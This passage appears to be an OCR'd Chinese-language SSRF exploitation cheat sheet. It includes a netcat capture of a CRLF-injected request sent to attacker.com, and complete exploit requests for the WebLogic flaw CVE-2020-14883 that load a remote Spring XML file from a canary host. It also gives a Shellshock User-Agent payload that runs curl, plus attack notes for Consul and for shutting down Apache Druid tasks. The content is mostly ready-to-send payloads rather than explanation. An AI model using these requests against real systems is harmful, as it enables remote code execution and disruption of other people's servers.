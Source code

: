 	Listening on [0.0.0.0] (family 0, port 4000)
	Connection from example.com 43111 received!
	POST /exp HTTP/1.11
	X-CLRF: Injected HTTP/1.1
	Content-Type: text/xml; charset=UTF-8
	soapAction: ""
	Content-Length: 418
	User-Agent: Java1.6.0_24
	Host: attacker.com:4000
	Accept: text/html, image/gif, image/jpeg, */*; q=.2
	Connection: Keep-Alive

	<?xml version="1.0" encoding="UTF-8" standalone="yes"?><env:Envelope xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:env="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><env:Header/><env:Body><find_business generic="2.0" xmlns="urn:uddi-org:api_v2"><name>sdf</name></find_business></env:Body></env:Envelope>
	CVE-2020-14883
	Linux
	POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
	Host: vulnerablehost:7001
	Upgrade-Insecure-Requests: 1
	User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:43.0) Gecko/20100101 Firefox/43.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
	Accept-Encoding: gzip, deflate
	Accept-Language: zh-CN,zh;q=0.9
	Connection: close
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 117

	_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://SSRF_CANARY/poc.xml")
	Windows
	POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
	Host: vulnerablehost:7001
	Upgrade-Insecure-Requests: 1
	User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:43.0) Gecko/20100101 Firefox/43.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
	Accept-Encoding: gzip, deflate
	Accept-Language: zh-CN,zh;q=0.9
	Connection: close
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 117

	_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://SSRF_CANARY/poc.xml")
  ###### Hashicorp Consul
  	默认绑定端口：80、443（SSL）、8080
	https://www.kernelpicnic.net/2017/05/29/Pivoting-from-blind-SSRF-to-RCE-with-Hashicorp-Consul.html
  ###### Shellshock
	默认绑定端口：80、443（SSL）、8080
	CGI路径
	https://gist.github.com/infosec-au/009fcbdd5bad16bb6ceb36b838d96be4
	通过User-Agent的 Shellshock
	User-Agent: () { foo;}; echo Content-Type: text/plain ; echo ;  curl SSRF_CANARY
  ###### Apache Druid
  	如果可以查看状态码，请检查以下路径是否返回 200 状态码
	/status/selfDiscovered/status
	/druid/coordinator/v1/leader
	/druid/coordinator/v1/metadata/datasources
	/druid/indexer/v1/taskStatus
	关闭任务，需要猜测任务 ID 或数据源名称